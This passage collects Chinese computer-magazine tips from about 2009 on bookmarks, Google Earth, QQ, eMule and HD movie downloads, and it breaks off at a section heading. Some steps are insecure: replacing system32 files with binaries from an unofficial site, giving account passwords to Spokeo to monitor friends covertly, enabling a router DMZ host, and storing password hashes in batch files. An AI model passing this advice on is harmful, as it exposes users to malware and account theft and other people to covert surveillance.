★ 傲游的在线收藏需要账号，如果你还没有注册过，选择“手工同步在线收藏”时傲游会弹出提示窗口，点击“是”后将自动关闭傲游，并弹出登录提示窗口。选中“使用我自己的账号启动”，点击“创建新账户”，在新窗口中填写自己的邮箱，并设置密码及昵称等，输入验证码之后，点击“完成”（见图2）。完成后，进入自己的邮箱将收到傲游发来的认证邮件，点击其中的链接验证即可。
★ 有些人注册了傲游账户，但是在进行同步操作时，总提示“收藏服务没有启用”。这种情况下，可关闭傲游后进入X:\傲游2安装目录\当前账号目录（如：xxx@xxx.com）\Config\，删除其下的Config.ini文件再重启傲游，按提示重新输入账户和密码登录，当弹出是否启用傲游收藏服务的提示时，点击“是”确认即可。



#### Firefox、IE也玩在线收藏

Firefox和IE的用户也很多，他们能不能在线收藏呢？同样可以，只要安装插件Xmarks即可。这里以Firefox为例，打开https://addons.mozilla.org/en-US/firefox/addon/2410，点击Add to Firefox（添加到Firefox）安装Xmarks插件。完成后重启Firefox，将会显示如图3所示的提示，点击它启动注册向导。单击Next（下一步），选择Create an account for me（创建新用户），按提示设置用户名（Username）、邮箱地址（Email Address）、密码（Password）等。注册完成后，Xmarks将会自动同步你的收藏夹。
如图4所示，Firefox地址栏右侧会多出一个人形小图标，点击它即可打开在线的收藏夹了。如果是在其他的地方上网，同样为Firefox安装上Xmarks插件，登录后即可共享你在别处的收藏了。





#### 来者不拒，通用在线收藏夹

上面的方法，都有一定限制，只适合某一类的浏览器。而在线书签网站则没有这些限制，不只是不同的浏览器可共用，就是不同的系统平台，如Windows、MAC等，也同样能共享。这方面的网站，Delicious（美味书签）是最有名的代表。
打开http://delicious.com/，点击右上角Join Now（立即加入），按提示填写用户名、密码等信息注册成功后，登录，然后打开http://delicious.com/help/tools，Firefox的用户点击Firefox Bookmarks add-on（火狐插件）链接，IE的用户点击Internet Explorer buttons（IE按钮）链接，然后按提示添加Delicious快捷按钮。使用其他浏览器的朋友，则可以点击进入Bookmarklet buttons for any browser（适用任意浏览器书签）。按提示添加Delicious快捷按钮。
以后上网冲浪时，遇到好的网站，就点击浏览器工具栏中的Bookmark on Delicious（添加书签到Delicious）按钮收藏。在其他任意地方上网时，无需登录，只要打开http://delicious.com/你注册的用户名，就可以看到你的所有收藏了，点击即可访问，非常快捷。

### 谷歌地球使用三妙招

文/王志军

Google Earth (谷歌地球) 又推出了新版，官方下载页面为http://earth.google.com/intl/zh-CN/，按照提示下载安装即可。使用时请打开“Google Earth Options→General” (谷歌地球选项→常规) 对话框，将界面语言由默认的English(US)更改为“中文(简体)”，重启程序之后即可生效，下面介绍Google Earth 5.0的三则新鲜功能。

#### 妙招一：追踪历史影像

如果你希望了解自己周围一直以来发生了哪些变化，那么可以利用Google Earth回到过去，可以轻松地观察到城郊扩建、冰盖消融以及海岸侵蚀等变迁。

运行程序，首先在搜索框中输入目的地，单击“搜索”按钮之后即可快速定位，接下来单击工具栏中的“历史图像”按钮 (时钟)，随后会弹出一个时间条，拖曳时间滑块，移动并缩放鼠标即可穿越时空查看到相应的景象，当然这只是Google Earth存档的卫星图片，但我们仍然可以从中比较出同一区域不同时间点的变化。

#### 妙招二：深潜海底世界

神秘的海底世界，一直是很多朋友心中的梦想，但由于条件所限，你可能并不能亲身感受。借助Google Earth，我们可以探索这一神秘的世界。

勾选左侧窗格中“图层→海洋”类别下的所有图层，如果硬件配置比较一般，也可以只勾选“国家地理”和“库斯托海洋世界”等有限的图层。在新的海洋层，你可以一直沉入海底，探究海底最深的地方：马里亚纳海沟；可以查看Google Earth合作伙伴的独家内容，了解气候变化给海洋造成的负面影响，包括气候变化和濒临灭绝的物种，虽然我们无法看到泰坦尼克号等船舶的遗迹，但却可以借助Google Earth发现它们的沉没地点，也许还会有来自YouTube的视频播放工作人员挖掘沉船遗迹的情况 (见图1)；可以显示海洋中无法支持生物生存的地方，比如佛罗里达外海的死区。



#### 妙招三：追踪路线并与他人分享

我们还可以在Google Earth中进一步标注地标并录制不同形式的旅程。使用时请首先从“工具”菜单下启用游览功能，此时会出现一个游览工具条，单击红色的录制按钮，接下来你就可以将自己的旅程进行全程录制，最后仍然单击红色的按钮结束录制，甚至还可以添加背景音乐或画外音。如图2所示，这里可以进行回放，保存之后可以在左侧窗格的位置区域右击选择“发送电子邮件”，可以选择默认的电子邮件程序，也可以使用Gmail，将其发给好友共同欣赏，这就很有意思了。



### 巧取QQ贺卡中心贺卡地址

在2009年《电脑爱好者》2期中，介绍了提取QQ贺卡中心Flash地址的方法。但是介绍的方法过于麻烦了，这里推荐我的更好方法。

#### 方法一：使用迅雷获取

首先你要登陆你的QQ邮箱，选择一个你喜欢的QQ贺卡。启动迅雷将鼠标放在贺卡上，会出现一个下载的按钮，点击按钮出现迅雷的下载页面，在上面的网址后面跟着的就是QQ贺卡的Flash地址。

> 小提示
使用这个方法要开启你迅雷的流媒体感应。开通方法是选择“配置→监视→在Flash和流媒体文件上显示下载图标”。

#### 方法二：查看Internet的临时文件

首先打开你喜欢的QQ贺卡播放完成后点IE浏览器中“工具→Internet选项”，在Internet临时文件中点“设置→查看文件”，会弹出“C:\Documents and Settings\用户名\Local Settings\Temporary Internet Files”将页面拉到最下面会有一个以.swf结尾的文件 (一般是一个英文字母加三个数字的文件名)，在右键菜单中选择“打开→确定”，就会打开一个网页，这个页面的地址就是QQ贺卡的Flash的地址。

> 小提示
对于像火狐、遨游这类的浏览器有一些专门的插件可以下载Flash。

### 网络跟踪——让好友动态明察秋毫

每个在网上的人，多多少少都会由几个不同的圈子，如某个MSN圈子、某家博客、某个如开心网之类的SNS网站等。但是因为这些圈子是分散的，所以想要知道好友在网上的所有动态（或者你希望好友知道你的所有动态）比较困难。不过现在有了WEB2.0聚合网站，我们就可以轻松追寻对方踪迹，完全掌控他（她）在网上的一言一行。

#### “关注”，不是偷窥

想要正大光明地“关注”某个好友的网上行迹，可以借助Friendfeed（http://friendfeed.com）之类的聚合网站来实现。打开Friendfeed主页，单击Join Friendfeed（加入Friendfeed）按钮进入注册页面，简单填写好用户名、密码及电子邮件地址等信息，点击“创建我的账户”后按提示完成注册。

> 小提示
国内也有一些类Friendfeed的不错的网站，比如planbus（http://planbus.com/），它支持校内、开心、新浪、QQ空间、叽歪、饭否等20个国内最流行的博客、微博客及SNS网站。比如，只要知道MM在新浪博客的用户名，我们就可以第一时间在planbus上追踪对方的更新信息。

接下来是导入好友。Friendfeed支持直接导入Facebook、MSN、Gmail上的好友。如图1所示，这里以Gmail为例，单击它跳转到谷歌登录界面，登录后谷歌将询问是否允许Friendfeed访问，单击“授予访问权”允许，如果你有Gmail好友已在Friendfeed上注册，则被自动导入，反之将显示出所有Gmail联系人列表，你可以很方便地向他们“发送邀请”加入Friendfeed。

一旦找到自己要跟踪的好友，下面的事就轻松多了。每次打开自己在Friendfeed上的主页，相应好友在网络其他地方的活动信息，如Flickr上的照片、Youtube上的视频、谷歌上的书签、Facebook上的聚会邀请等等（见图2），就一目了然了。

#### 暴力窥视防不胜防

Friendfeed之类的网站中，你对好友的关注，一定程序上需要好友的默许认可。另外还有一些网站，能够在好友毫不知情的情况下监测他们在网上的状态，这方面的网站Spokeo（http://www.spokeo.com/）是一个代表。

打开Spokeo主页后，点击页面上的LOGIN（登录），左侧将显示出登录框，在Email Address（邮箱地址）中填写你在注册MSN、Google、Facebook、Yahoo等账号时所用的E-mail地址，并输入相应的密码（Password），即可提取出对应的好友列表。比如输入MSN账号邮件及密码后，按回车键进入，在新页面的左侧就会列出你所有MSN上的好友。单击每个好友可以展开，这样就可以看到他们在各类网络社区网站中的消息了，诸如他们在MSN、谷歌、Amazon、YouTube、Flickr等社会化网站上的各种活动，一目了然。



#### 有攻就有守，保护E-mail反跟踪

那些能够跟踪我们在线活动的网站，主要使用的方法就是追踪E-mail地址以获取信息。为什么？因为我们在注册论坛、博客、SNS网站的时候，一般都需要提交自己的E-mail，隐私的“泄露”正是从此开始。所以，下面介绍给大家几个保护E-mail地址的技巧。

#### 使用临时邮箱注册

所谓临时邮箱，就是在申请邮箱后，在指定的时间之后此邮箱自动销毁（失效）。用这样的临时邮箱去网站注册，别人就不可能通过它追踪到你的信息了。这其实也可以作为防垃圾邮件的方法来使用。

提供临时邮箱服务的网站有很多，大家可以试试10 Minute Mail（10分钟邮箱）。在浏览器中打开http://10minutemail.com/，如图3所示，已自动为你分配了一个邮箱。如果觉得10分钟不够用，可点击下面的“再给我10分钟”链接（可以点击多次）。收到注册网站的激活邮件，当前网页上会有显示，点击打开激活注册，此临时邮件便可功德圆满，自动销毁了。




> 小提示
★如果需要获得时间更长的临时邮箱，可选择http://www.jetable.org/zh/index，它最长可提供1个月时长的邮箱。另外还有一个http://whspr.me/网站，它提供时长可达一年的临时邮箱。
★有些网站注册后，除了开始需要收取激活邮件外，以后可能还需要用到此邮箱，比如密码丢失后通过注册邮箱找回等。这种情况下就不适合用临时邮箱了。如果此网站很重要，并且你有隐私不想让更多的熟人知道，建议你专门申请一个固定邮箱注册此网站，因为不会在其他地方使用这个邮箱，这样就大大减少被搜索到的机率了。

### WriteToMyBlog：在线撰写博客很轻松

文/王志军

WriteToMyBlog是一个很有意思的网站，我们可以通过网站所提供的平台在线撰写博客并进行发布，这个在线撰写平台不仅支持而且允许同时将文章发布到多个博客，这可并不多见。

第1步：打开浏览器，访问http://writetomyblog.com/，如图1所示，这里提供了Standard（标准）、Advanced（高级）、Text/Html（文本/网页）、Customize（自定义）等四种编辑模式，默认使用Advanced模式，首先请完成相关的文字编辑和修饰工作。



第2步：单击编辑区工具栏中的Insert/edit image（插入/编辑图像）按钮，我们可以很方便地插入网页上的图片。不过，WriteToMyBlog的特殊之处是还允许插入已上传到Flickr的图片和引用YouTube的视频，例如在这里单击Flickr Photos（Flickr图片）按钮，此时会另行打开一个标签页，输入你的Flickr账号，然后单击右侧的搜索按钮，很快就会在预览区显示相应的图片，选中之后单击Insert Photo（插入图片）按钮即可插入到当前编辑区。

如果需要插入YouTube的视频，可以单击YouTube Videos（YouTube视频）按钮，然后在随之弹出的标签页中输入视频关键字进行搜索，等找到之后单击页面底部的Insert Video（插入视频）按钮就可以了。

第3步：设置好博客文章的标题(Title)，然后单击右下角的Publish（发布）按钮，此时我们会看到图2所示的页面，从Blog Account（博客账户）下拉列表框中可以选择相应的博客服务，然后输入相应的账号和密码，最后单击Publish（发布）按钮就可以啦。



假如需要同时发布到多个博客站点，可以继续单击Add Another Blog Account（添加其他博客账户）按钮进行添加，感兴趣的朋友不妨一试。

### 对《和谐共处，多个QQ自动登录》一文的补充

文/王志军

看到2009年第2期《和谐共处，多个QQ自动登录》这篇文章，当时真的很兴奋，因为自己有两个QQ账号，一个主要用于朋友之间的联络，另一个则用于工作，如果能够实现两个账号的自动登录，那显然是方便不少。

#### 1. 任务管理器的版本

原文提及的是使用Vista任务管理器，而且特别强调Vista用户无需安装。其实，我们应该下载的是Longhorn任务管理器，这是Windows Vista的早期开发版本，下载地址见http://www.ayxz.com/soft/6925.htm，解压之后会得到taskmgr.exe、taskkill.exe、tasklist.exe三个文件，分别覆盖“C:\Windows\system32\”和“C:\Windows\system32\dllcache”路径下的同名文件。
虽然Windows Vista的任务管理器可以手工添加“映像路径名称”列，但却并没有《和谐共处，多个QQ自动登录》所说的自动登录参数，也就是说Windows Vista仍然需要覆盖相应的文件才行。如果不想替换文件，可以使用16进制编辑工具Winhex。

#### 2. 批处理文件的正确写法

《和谐共处，多个QQ自动登录》并没有将批处理文件的作用讲述清楚，其实这个批处理文件只能实现单个账号的自动登录，即使在批处理文件中连续写入两行代码，也无法实现多个账号的自动登录，这是因为批处理文件是执行完一行才会执行下一行，因此只能登录第一个QQ，在退出第二个QQ之后才能够自动登录第二个QQ，因此无论如何同一时刻只有一个QQ处于登录状态。按照作者的方法，需要创建多个批处理文件，并且将这些批处理文件添加到开始菜单的“启动”组，才能变相实现多个QQ账号的自动登录。
正确的批处理文件应该写成下面的形式，这里的“g:\QQ\QQ.exe”是QQ程序的绝对路径，请根据实际情况进行更换：

```
start g:\QQ\QQ.exe /START QQUIN:QQ账号 PWDHASH:加密之后的密码== /STAT:10
start g:\QQ\QQ.exe /START QQUIN:QQ账号 PWDHASH:加密之后的密码== /STAT:10
```

原文提到“STAT:10”表示正常登录，其实我们还可以使用“STAT:40”或“STAT:41”，前者表示隐身登录，后者表示在线。

## 不用装MSN 网页上面即时聊

文/王志军

现在使用Windows Live Messenger (MSN) 的朋友不在少数。但可能由于一些特殊原因，你无法在计算机上安装MSN，这时该怎么办？其实，微软已经向包括中国在内的13个国家和地区推出了名为Web Messenger for Hotmail的服务，这样我们就可以通过网页聊MSN了。

**第1步：重置页面语言**
打开浏览器，访问http://people.live.com/或http://mail.live.com/，按照提示使用Windows Live ID登录，但中文语言下暂时还无法使用Web Messenger for Hotmail服务。此时可单击页面右侧的“选项”按钮，默认设置当然是“简体中文”，单击之后会跳转到语言选择页面，请重新设置为English（英语），保存更改之后即可生效。

**第2步：登录Web Messenger**
切换到Contact list（联系人列表）面板，我们可以在页面上方的Options（选项）左侧看到新增加的Messenger按钮，如图1所示，从快捷菜单中选择“登录Messenger（网页版）”或“自动从此位置登录”均可。不过建议还是尽可能选择前者，毕竟需要考虑到安全问题。

鼠标移到联系人头像的左侧，此时会激活一个快捷菜单，如图2所示，在这里选择Send an instant message（发送即时消息）。接下来会弹出一个对话框，与软件MSN的对话框类似，输入相关的内容，单击Send（发送）即可。如果对方处于脱机状态，发送的消息将会在对方登录后接收到。如果选择Send a private message（发送隐私消息），那么所输入的消息将会以邮件的形式发送给对方。





**第3步：网页交流**
现在，我们就可以选择某个联系人进行网页聊天了。那些离线的联系人将显示为灰色，而头像也是千篇一律的MSN灰色小人。

## 为Windows Live Writer添加替换功能

文/王志军

相信很多朋友都会使用微软的Windows Live Writer作为自己的博客撰写工具，事实上这个组件也确实非常好用。它的最新版本不仅能够方便地撰写并上传日志，而且可以插入图片、地图、表格。不过遗憾的是，Windows Live Writer却没有提供替换功能，这样在需要批量修改时就比较麻烦。不过大家不用着急，只要安装一款名为Imtech Find and Replace Live Writer Plugin的插件，即可获得替换文本的功能了。它的下载页面为http://www.codeplex.com/Release/ProjectReleases.aspx?ProjectName=tmt&ReleaseId=9214。完成安装之后不需要退出Windows Live Writer并重新运行，直接就可以调用这个替换插件。

首先请选中需要替换的内容，接下来从“插入”菜单下找到新增加的Find and Replace（查找和替换）命令，执行后会弹出一个Replace（替换）对话框，在Find what（寻找什么）后面的文本框中手工输入或粘贴需要替换的原文本，接下来再在Replace with（替换为）后面的文本框中输入准备用来替换的文本，最后单击Replace（替换）按钮就可以了（见图），关闭这个替换对话框之后即可获得替换之后的效果。

需要指出的是，我们除了可以在正常的编辑模式中执行替换操作之外，同样可以在源代码模式中使用这款替换插件，当然在预览模式中是无法使用替换功能的，感兴趣的朋友不妨一试。



## 图片在线变特效 秀出真我风采

文/一页

数码相机的普及使得拍照片成为极其简单的事，不过拍摄虽然简单，但是后期处理却比较麻烦，往往为了一个特殊效果，要在Photoshop里折腾半天，更何况有不少人还不会使用Photoshop。其实借助一些工具，谁都可以制作出令人羡慕的特效照片来。

## 我也能当封面明星

是不是很羡慕那些封面明星？通过Magmypic (http://www.magmypic.com/) 你也可以登上时尚杂志的封面。首先准备好自己的靓照，做一些简单处理，并保存为JPG、GIF或PNG格式。然后打开Magmypic网站主页，点击右侧“浏览”（见图1），选择前面准备的照片，确定后自动上传，并进入如图2所示的界面。点选自己喜欢的封面，如果当前页面没有，单击右上角Page1-5链接，可以看到更多的风格样式。还可以切换到Choose a Comic Book（选择一本漫画书），挑选漫画书风格的封面。左侧可以即时预览效果。





选择完毕，点击下方Save&Continue（保存并继续），然后右击效果图，选择“目标另存为”保存图片就可以啦。最妙的是，还可以点击右侧MySpace、Facebook、Live Spaces等按钮，将自己上了“封面”的照片发布到其他网站上。或者点击Copy（复制）按钮复制下代码，还可以将此照片嵌入到自己的博客中，非常方便。

另外还有一款在线封面制作网站http://bighugelabs.com/flickr/magazine.php，它可以自己设置封面的文字、标题、颜色等。不过操作上，不如上面的简单。

## 在线制作照片日历

除了可以制作封面外，通过在线工具，我们还可以将照片嵌入到日历中，创建完全属于自己的个性台历。

首先打开http://bighugelabs.com/flickr/calendar.php，点击“浏览”上传自己的照片，设置好图片位置（Center为居中、Top/Left为左上角、Bottom/Right为右下角），日历大小（8.5x11、8x10或CD盘面大小），时间（Month为月、Year为年），最后点击Create（创建）按钮，稍候片刻将显示效果图页面，可以点击Edit（编辑）日历，效果满意后点击Save（保存）并打印出来就可以啦。

## 用自己的照片制作明信片

用自己的照片制作一个明信片，邮给亲朋好友，感觉是不是很酷。现在使用QQ的人非常多，我们利用QQ邮箱提供的功能就可以制作这样的明信片来。

单击QQ面板上的信封图标直接登录到自己的QQ邮箱，点击切换到“明信片”，点击“上传照片”打开上传窗口，通过“浏览”按钮找到并上传自己的照片。接着从右侧点选自己喜欢的明信片样式，还可以拖动调整照片位置，以及对照片进行放大/缩小操作（见图3）。设置完毕，点击“发送”就可以将它发给自己的朋友啦。



如果没有现存的照片，还可以用摄像头现场拍摄照片。接好摄像头之后，点击“拍照”，在弹出的Adobe Flash Player设置窗口点选“允许→关闭”，即可看到自己的影像了。调整好姿势后点击“拍照”按钮（或按空格键），再单击“确定”，即可上传拍下的照片了。接下来的操作步骤基本相同，就不细说了。

## 在线制作动感相册

照片一多，就会想着制作成动感的相册，使用QQ动感影集可以轻松实现这个愿望。首先登录自己的QQ空间，切换到“相册”，如果还没有相册，点击“马上创建一个”，设置好相册名称等，确定后进入相册，点击“添加照片”上传照片。

上传完成后返回相册首页，点击“做影集”，进入“动感影集创意坊”。点击其中的“添加照片”，在弹出的对话框中（见图4）从左上角下拉列表中选择相册，然后勾选要制作成相册的照片（或直接点击“全选”），最后点击“确认”，相册就制作完成。



了。不过初始的相册还没有特效，这时可以从右侧点选自己喜欢的模板，这时你会惊喜地发现，制作一个超酷的动感十足的相册是如此简单（见图5）。

最后点击“保存相册”，将打开一个新页面，其中显示出在线相册的地址，点击“复制”，然后把复制的网址粘贴发送给好友欣赏，肯定会让他们大吃一惊的。当然，也可以将动感相册插入到QQ日志中，非常方便。

## 何必装软件 网络帮你全搞定

文/流言

由于一些特殊情况（比如出差在外，或者是在用别人的电脑等），有时我们不便或不能安装某些软件，但有些文件处理又必须用到特殊软件，这时怎么办？其实现在的功能非常强大，不用装软件，同样能完成许多特定的任务。

### 不装Office也能办公

有时急需处理一些工作文档，如Word文档、Excel表格等。但是机器上又没装Office软件，怎么办？不必着急，打开http://docs.google.com，如图1所示，在右侧输入自己的谷歌账号及密码（如果还没有谷歌账号，可点击下面的"开始使用"注册一个），点击"登录"，进入如图2所示界面。点击New（新建），其下可以创建新的Document（Word文档）、Presentation（PPT演示文档）、Spreadsheet（Excel电子表格）等文档。其实一般我们用到的是Upload（上传），点击它之后，浏览打开本地的Word、Excel、PowerPoint等文档，就可以像在Office软件中一样进行编辑保存了。



### 音乐音量在线微调

有时从网上下载的一些歌曲，音量太小听起来很不方便。这时你不必特意安装什么音频处理软件，Vloud（http://www.vloud.com）就可以帮你轻松搞定。

打开Vloud主页后，根据需要先点选light（轻微增加）、loud（大声）、louder（很大声）、loudest（最大声），然后点击"浏览"，找到并上传需要调整音量的MP3歌曲（支持MP3和WAV格式10MB以下文件）即可，处理完毕，网页上将显示Play（在线播放）及Download（下载）按钮，由你自己选择。

### 图片大小在线随意缩放

现在的数码相机拍出的照片一般都比较大，如果想把照片改小一点，可通过Resizeimage（http://resizeimage.org）来在线完成，而无需安装专门的图像处理软件。

打开Resizeimage主页后，首先点击"浏览"按钮选择本机上要处理的照片，然后单击Upload Image（上传图像）。上传完成后，网站已预置了大（Large）、中（Medium）、小（Small）及原始（Original）四种模式，根据需要点选之后，单击Save changes（保存改变），然后下载生成的图片就可以啦。其实除了预置的模式外，点击Advanced editor（高级），还可以进行更细致的手工调整，如图片具体的尺寸大小、边框设置等，相当好用。

### 在线制作大头像

论坛、博客、QQ、MSN，处处都需要大头贴。虽然可以用自己的照片直接制作，但是不是总觉得没有卡通头像酷？不过你可能并没有学过绘画，怎么办？其实不用任何美术功底，借助minimise me（http://www.minimise-me.com/），我们就可以自己定制卡通头像。

在登录minimise me后，点击Create a character（创建人物）按钮，将打开如图6所示界面，左侧有Head（头）、Eyes（眼睛）、Eyebrows（眉毛）、Mouth（嘴）、Hair（头发）、Hat（帽子）等多个按钮，分别点击，可以打开对应的图库供我们选择。比如点击Eyes，就会显示多种风格的眼睛形状，点击之后眼睛自动显示在中间的脸图形上，另外还可以点击Next（下一步）在更多的眼睛图片中挑选。选好眼睛风格后，点击上面的颜色按钮，可以调制眼睛的颜色。而下面的一些按钮，则可以用来放大缩小、移位、旋转、平移等。总之随意调整，直到效果满意为止。其他如眉毛、嘴、头发等，操作方法相似，一一设置完毕，一个超酷的卡通头像就制作完成了。




设置完毕，点击右侧Preview & download your character（预览并下载头像），将会要求你安装minimise me软件，将制作的卡通头像导入到MSN中。不过我觉得这完全没有必要，我们可以通过截屏软截图，提取制作完成的卡通头像即可。这样，就可以把它应用到MSN、QQ、论坛、博客等其他的地方了。

## 骑“驴”看唱本——下载走着瞧！

文/李云峰

网上有些文件本身需要占用大量的存储空间，并且服务器、带宽的开销也非常大，因此这类免费资源已经越来越少了。在此情况下P2P便成了新生力量，而电驴作为P2P下载的代表之一，由于其便利、出色的共享方式，获得了一大批用户。

电驴的使用很简单，但一些新接触电驴的网友在论坛上经常反映的问题就是使用电驴下载速度慢，即使是最新的资源速度仍然很慢，所以我们这里重点讲解如何提升电驴下载速度的问题（如非特别说明，这里以VeryCD版电驴为例，下载地址：http://www.emule.org.cn）。

### 技巧1：选择文件数多的服务器

电驴下载速度的快慢，一方面取决于自身所能使用的网络带宽，另一方面与连接上的服务器也有关系，服务器上索引的共享资源数量，连接上的电脑客户端等，这些同样制约着下载速度，因此想要提升电驴的下载速度，首先就要选择一个好的服务器。

在电驴中，右键单击工具栏空白处，在弹出的快捷菜单中选择“定制工具条”，在打开的对话框中将“服务器”添加到工具条中。然后关闭“自定义工具栏”对话框，单击工具栏上的“服务器”，在“服务器”功能标签页中，单击“文件”标题列，使服务器列表按照文件数量的多少降序排列（如果单击一次后是按升序排列的那就再单击一下）。然后选择排在最上面的几个服务器，右键单击，在弹出的快捷菜单中选择“添加到静态服务器列表”项（见图1），如果此项为灰色不可用状态则说明对应的服务器已经在静态服务器列表中了，不可以再次添加。



接下来单击电驴工具栏中的“选择”按钮，在打开的选项对话框中，单击左侧的“服务器”项，在右侧勾选最下面三项（见图2）。经过这样设置后，再次运行电驴时，电驴就会自动连接静态列表中的服务器，也就是我们选择的索引文件多的服务器。



### 技巧2：让驴儿轻装上阵

一些驴友们发现，在共享了大量的资源后，使用电驴总是出现“卡机”的情况，经常是硬盘灯狂闪，机器也有停顿的现象，关闭电驴后，问题就得到解决。出现这种情况的原因，绝大多数都是因为有人“疯狂检档”而造成的。

“疯狂检档”这个词也是广大驴友们创造出来的，其来源于“检档”一词，简单理解就是“检索档案”。在电驴下载时，在“传输”功能界面中，下方会显示正在下载、上传、排队或已知客户的列表，右键单击用户名称，在弹出的对话框中选择“查看共享文件”项（见图3），这时电驴会自动发送查看共享文件列表请求。



在电驴的状态栏中会显示文件列表请求是否成功，或者在“服务器”功能界面中，在下方的“日志”标签中可以查看完整的请求信息，如果请求成功（对方允许查看文件列表），在“搜索”功能界面中可以看到用户的共享资源列表。

如果某一用户，在一段时间内，不断地查询HighID用户的共享文件列表，就属于疯狂检档行为。因为每次请求，电驴都需要索引一次本地共享的文件，如果共享文件非常多，这个索引过程可能会持续几秒钟，遇到疯狂检档行为时，机器就容易卡机。解决办法也很简单，使用驴友们经过多次测试后的IPfilter将那些有疯狂检档行为的IP地址过滤掉就可以了。

从http://www.jfyf.org/emule/ipfilter.rar地址处下载、解压后将ipfilter.dat文件替换电驴目录下的config目录下的同名文件即可过滤那些疯狂检档的用户。

### 技巧3：非友好客户端请走开

P2P的初衷就是资源共享，P2P的主要精神就是“我为人人，人人为我”，但近两年却出现了一些伪P2P者，其主要表现为只下载不上传，或者只上传给使用同样客户端的用户。在电驴中，拥有这样特性的客户端被广大网友称为吸血驴，给P2P带来了极坏的影响，广大用户也都一致强烈要求封杀吸血驴。因此，P2P爱好者中便有人开发出了反吸血驴的插件，从而帮助我们自动反吸血驴。

从http://www.jfyf.org/emule/antileech.rar地址处下载反吸血驴插件，解压后替换电驴安装目录下config目录下的同名文件，这样可有效防止吸血驴，从而保持良好的下载环境。

### 技巧4：拒绝LowID

电驴运行时，在“服务器”功能界面中，“我的信息”栏中有ID项，而不同的人会有HighID和LowID之分。大家都知道使用电驴时要获得HighID，HighID用户一般情况下下载速度会比LowID用户快。那么HighID和LowID用户之间究竟有些什么区别呢？如何才能获得HighID呢？

在下载的时候，HighID可以连接除了其他服务器上的LowID用户外的所有用户，而LowID只能连接到所有服务器上的HighID，也就是说与HighID相比，不能与本服务器上的LowID用户之间交换资源。

电驴使用的本机端口不能与外网直接通信是导致电驴不能获得HighID的最主要原因，而在众多的LowID用户中，内网（局域网，最常见的使用路由器共享上网的用户都属于局域网用户）用户则最多。下面分外网和内网用户分别说明一下，如何在电驴中获得HighID。

外网用户不能获得HighID，大多数情况都是防火墙软件阻止了端口的通信，一般情况下只要在防火墙中打开电驴中对应的端口就可以了。如果没有使用第三方防火墙软件，在电驴的“选项”对话框中，切换到“连接”设置页，单击右侧的“在WinXP内置防火墙中打开这些端口”，并在“扩展设置”页中，勾选“在启动/退出eMule时，打开/关闭WinXP内置防火墙中的对应端口”项。如果使用了第三方防火墙软件，需要在防火墙的规则中对电驴进行放行，也就是对互联网的访问要设置为“允许”（见图4）。

> 小提示
确定自己是外网还是内网的方法很简单，运行CMD进入命令行提示符，然后输入ipconfig /all命令并按下回车键，观察IP Address项后面对应的IP地址即可，如果属于以下三种中的一种，则属于内网上网，反之就是外网上网了。
192.168.x.x
172.16.x.x至172.31.x.x
10.x.x.x



下面重点说一下使用路由器共享上网的内网用户如何获得HighID，各种家用路由器的配置基本上也差不多，这里以TP-Link的TL-WR340G路由器为例，在浏览器地址栏输入192.168.1.1登录路由器管理页面，依次进入“转发规则→UPnP设置”，在右侧单击“开启UPnP”按钮，然后回到电驴中，在电驴的“选项”对话框中，单击左侧的“扩展设置”，在右侧勾选“使用UPnP”项（见图5）。路由器和电驴都设置完毕后，重新运行电驴，正常情况下就可以获得HighID了，在路由器的开启UPnP界面中，还可以看到电驴的UPnP映射成功的信息（见图6）。



UPnP设置
| ID | 应用描述 | 外部端口 | 协议类型 | 内部端口 | IP地址 | 状态 |
|----|----------|----------|----------|----------|--------|------|
| 1 | Skype UDP at 192.168.1.100:6548 | 6548 | UDP | 6548 | 192.168.1.100 | 已启用 |
| 2 | Skype TCP at 192.168.1.100:6548 | 6548 | TCP | 6548 | 192.168.1.100 | 已启用 |
| 3 | BitComet (192.168.1.100:25811) | 25811 | TCP | 25811 | 192.168.1.100 | 已启用 |
| 4 | BitComet (192.168.1.100:25811) | 25811 | UDP | 25811 | 192.168.1.100 | 已启用 |
| 5 | [eMule 0.48.0] [TCP: 4160] | 4160 | TCP | 4160 | 192.168.1.100 | 已启用 |
| 6 | [eMule 0.48.0] [UDP: 4170] | 4170 | UDP | 4170 | 192.168.1.100 | 已启用 |

> 小提示
★如果使用UPnP不能解决问题，还可以尝试设置一下DMZ主机，设置方法也较为简单，在“转发规则→DMZ主机”中，将DMZ状态设置为“启用”，然后在DMZ主机IP地址右侧输入自己的IP地址即可。
★使用DMZ主机的方式，本机最好设置为固定IP地址，从而避免因电脑重启后获得不同的IP地址而使DMZ主机设置失效。

搞定了以上几个问题，电驴下载资源时，基本上就不存在速度的问题了（冷门资源除外）。不过电驴的使用，除了下载速度外，可以说电驴本身也是一门很大的学问，会涉及到很多知识。祝愿大家在利用电脑下载影视资源时，能够学会更多的知识。

## 看的就是享受——高清电影下载

文/越野苍狼

要想下载高清电影，首先要知道哪里有这些影视资源。这里我先给大家介绍一些高清电影的资源网站，然后再跟大家分享一个下载实例。

大家通过学习，可能基本上对网上流传的影片格式以及视频来源有个初步的了解，并且在资源质量的判断上有了初步的认识。接下来要做的就是将高清电影下载下来，然后再慢慢欣赏。这里我们着重推荐真正的高清资源下载，也就是资源质量达到720P和1080P的影视资源。

### 高清哪里下，驱猫逛论坛

#### VeryCD

VeryCD (http://www.verycd.com) 网站，在国内几乎成了电驴的代名词。按照VeryCD官方的说法，VeryCD的理想是“分享互联网”，他们的使命是通过开放的技术构建全球最庞大、最便捷、最人性化的资源分享网络。2003年9月，VeryCD将开放源码的eMule (电驴) 引入中国，VeryCD便成了电驴资源发布、共享平台。

通过VeryCD发布的电驴资源已经不计其数，其包含影视、音乐、游戏、软件等众多类型的资源，影视资源当然是最大份额的了，并且VeryCD上发布的资源，大多数质量都不错，因此VeryCD基本上成了国内“驴友”寻找高清影视资源的集散地。

> 在VeryCD网站中，以HD、HDTV、BD、720、1080等关键字搜索，可以搜到大量的高清影视资源。

#### CHD联盟

CHD联盟 (http://www.chdtv.net/) ，集合了Remux、1080P、720P等不同等级的高清资源发布区，资源的类型也比较丰富，除了影视内容外，还包含一些日韩、欧美的高清音乐资源。

#### 思路HD论坛

思路HD论坛 (http://bbs.siluhd.com) 与CHD联盟类似，也提供多种类型的高清影视下载，并且还提供字幕、光盘封面下载，还有一些技术交流的子版块，是非常不错的论坛。

### 实战：P2S资源的下载

